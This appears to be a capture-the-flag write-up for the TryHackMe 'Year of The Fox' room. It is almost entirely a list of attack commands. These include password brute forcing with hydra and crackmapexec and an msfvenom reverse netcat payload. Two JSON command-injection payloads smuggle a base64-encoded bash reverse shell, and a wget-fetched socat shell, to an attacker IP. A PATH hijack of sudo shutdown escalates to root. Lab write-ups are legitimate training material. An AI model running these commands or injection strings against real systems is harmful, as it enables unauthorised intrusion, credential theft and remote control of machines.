 # TryHackMe-Year of The Fox

**Scope:**

- SMB (Server Message Block)
- RPC (Remote Procedure Call)
- SSH (Secure Shell)
- Socat (Socket CAT)

**Keywords:**

- Password Brute Force
- HTTP-Head Method
- Burp Suite
- RCE (Remode Code Execution)
- SSH Port Forwarding
- Shutdown Binary Manipulation

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -oN nmap_result.txt -Pn $target_ip`
- `enum4linux -a $target_ip`
- `enum4linux-ng -A $target_ip`
- `smbclient -L \\yearofthefox.thm`
- `rpcclient -U "" -N $target_ip`
- `nmap --script "safe or smb-enum-*" -p 445 $target_ip`
- `hydra -l rascal -P /usr/share/wordlists/rockyou.txt yearofthefox.thm http-head /`
- `hydra -l fox -P /usr/share/wordlists/rockyou.txt yearofthefox.thm smb`
- `crackmapexec smb yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --content`
- `msfconsole -qx 'use auxiliary/scanner/smb/smb_login'`
- `smbclient \\\\yearofthefox.thm\\yotf -U fox -t 500`
- `crackmapexec smb yearofthefox.thm -u fox -p fuckyou2 --content --pass-pol`
- `xdg-open smb://yearofthefox.thm/`
- `curl --user rascal:chiva http://yearofthefox.thm`
- `msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`
- `echo -n 'bash -i >& /dev/tcp/10.2.37.37/22244 0>&1' | base64`
- `nmap -sV -A -O $target_ip -p 11222 -oN port_11222_result.txt -T4`
- `hydra -l fox -P /usr/share/wordlists/rockyou.txt -f -s 11222 yearofthefox.thm ssh`
- `crackmapexec ssh yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --port 11222 -x 'whoami'`
- `ssh -o MACs=hmac-sha2-256 fox@yearofthefox.thm -p 11222`
- `strings -n 10 shutdown`
- `r2 -AAAA shutdown`

**System Commands:**

- `{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjM3LjM3LzIyMjQ0IDA+JjE= | base64 -d | bash; \""}`
- `{"target":"\"; wget -q http://10.2.37.37:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.2.37.37:13232; ecoh \""}`
- `whoami`
- `netstat -tulwn`
- `ss -tulwn`
- `cat /etc/ssh/sshd_config | grep 'Listen’`
- `./socat TCP-LISTEN:11222,fork TCP:127.0.0.1:22`
- `sudo -l`
- `cp /bin/bash /tmp/poweroff`
- `chmod +x /tmp/poweroff`
- `export PATH=/tmp:$PATH`
- `sudo /usr/sbin/shutdown`
